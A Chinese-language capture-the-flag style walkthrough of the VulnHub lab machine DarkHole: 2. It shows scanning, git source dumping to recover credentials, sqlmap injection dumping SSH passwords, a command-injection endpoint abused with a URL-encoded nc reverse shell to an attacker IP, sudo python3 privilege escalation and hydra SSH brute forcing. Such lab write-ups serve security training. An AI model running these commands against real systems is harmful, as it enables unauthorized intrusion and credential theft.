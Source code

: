 靶机地址：[DarkHole: 2 ~ VulnHub](https://www.vulnhub.com/entry/darkhole-2,740/)

主机发现、端口扫描、服务枚举
```Shell
sudo arp-scan -l
sudo nmap -p- "192.168.1.56"
sudo nmap -p "22,80" -sV "192.168.1.56"
# 22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
# 80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

访问web页面，可以跳转到一个登录页，查看源码，没发现什么特别的内容
只有如下注释
```html
<!-- <a href="file:///C:/Users/SAURABH%20SINGH/Desktop/HTML5/PROJECTS/Project%201/Project_1.html"><h1>Sign In</h1></a> -->
<!-- <a href="file:///C:/Users/SAURABH%20SINGH/Desktop/HTML5/PROJECTS/Project%201/P2.html"> <h1>Log In</h1></a> -->
```
先进行路径扫描
```Shell
sudo dirsearch -u "http://192.168.1.56"
# /.git/
# /.idea/
# /config/
# /dashboard.php
```
可以发现git源码泄露，下载 `.git` 目录（不好用的话可以搜其它工具，如 [GitHacker](https://github.com/WangYihang/GitHacker) ）
```Shell
# 下载.git目录
bash /home/kali/Tools/GitTools/Dumper/gitdumper.sh "http://192.168.1.56/.git/" dump_git
```
git提交记录如下
```
commit 0f1d821f48a9cf662f285457a5ce9af6b9feb2c4 (HEAD -> master)
Author: Jehad Alqurashi <anmar-v7@hotmail.com>
Date:   Mon Aug 30 13:14:32 2021 +0300

    i changed login.php file for more secure

commit a4d900a8d85e8938d3601f3cef113ee293028e10
Author: Jehad Alqurashi <anmar-v7@hotmail.com>
Date:   Mon Aug 30 13:06:20 2021 +0300

    I added login.php file with default credentials

commit aa2a5f3aa15bb402f2b90a07d86af57436d64917
Author: Jehad Alqurashi <anmar-v7@hotmail.com>
Date:   Mon Aug 30 13:02:44 2021 +0300

    First Initialize
```
解压每一次提交
```Shell
bash /home/kali/Tools/GitTools/Extractor/extractor.sh dump_git extract_git
```
查看第二次提交的内容
```Shell
git diff a4d900a8d85e8938d3601f3cef113ee293028e10
# 或
cat extract_git/1-a4d900a8d85e8938d3601f3cef113ee293028e10/login.php
```
包含如下内容
```php
if($_POST['email'] == "lush@admin.com" && $_POST['password'] == "321"){
    $_SESSION['userid'] = 1;
    header("location:dashboard.php");
    die();
}
```
可以试试这个账号密码登录，登录成功了，跳转到了 `/dashboard.php?id=1`
尝试SQL注入 `/dashboard.php?id=1'+or+1=1--+`
```Shell
sqlmap -r req.txt -p "id"
sqlmap -r req.txt -p "id" --dbs
# darkhole_2
sqlmap -r req.txt -p "id" -D "darkhole_2" --tables
# ssh users
sqlmap -r req.txt -p "id" -D "darkhole_2" -T "ssh" --columns
# user id pass
sqlmap -r req.txt -p "id" -D "darkhole_2" -T "ssh" -C "id,user,pass" --dump
# 1 jehad fool
```
直接SSH，成功了，信息收集
```Shell
cat /etc/passwd | grep /bin/bash
# root:x:0:0:root:/root:/bin/bash
# lama:x:1000:1000:darkhole:/home/lama:/bin/bash
# jehad:x:1001:1001:,,,:/home/jehad:/bin/bash
# losy:x:1002:1002:,,,:/home/losy:/bin/bash
uname -a
# Linux darkhole 5.4.0-81-generic #91-Ubuntu SMP Thu Jul 15 19:09:17 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
ss -antlp
# 22 80 53 3306 9999 33060
cat .bash_history
# curl "http://localhost:9999/?cmd=id"
curl "http://localhost:9999/?cmd=whoami"
# losy
```
这样的话尝试切换到losy用户
```Shell
nc -e
# nc: invalid option -- 'e'
# 试试分号能不能用
curl "http://localhost:9999/?cmd=id;whoami"
# 可以用
# 试试管道能不能用
curl "http://localhost:9999/?cmd=cat%20/etc/passwd%20|%20grep%20/bin/bash"
# 可以用
# 反弹shell 先对特殊字符进行URL编码
curl "http://localhost:9999/?cmd=rm%20%2Ftmp%2Ff%3B%20mkfifo%20%2Ftmp%2Ff%3B%20cat%20%2Ftmp%2Ff%20%7C%20%2Fbin%2Fsh%20%2Di%202%3E%261%20%7C%20nc%20192%2E168%2E1%2E26%204444%20%3E%20%2Ftmp%2Ff"
```
成功获取到了反弹shell
```Shell
cat .bash_history
# sudo -l
# password:gang
# sudo /usr/bin/python3 -c 'import os; os.system("/bin/sh")'
sudo -l
# gang
# (root) /usr/bin/python3
sudo /usr/bin/python3 -c 'import os; os.system("/bin/sh")'
```
提权成功

其它提权方式，还记得之前收集到的用户还有一个 `lama` 没有利用到，尝试对其进行SSH暴力破解
```Shell
hydra -l lama -P /home/kali/Tools/Custom/MidPwds.txt ssh://192.168.1.56
# [22][ssh] host: 192.168.1.56   login: lama   password: 123
```
登录 `lama` 用户
```Shell
ssh lama@192.168.1.56
ls -a
# .sudo_as_admin_successful
sudo -l
# (ALL : ALL) ALL
sudo su
```
提权成功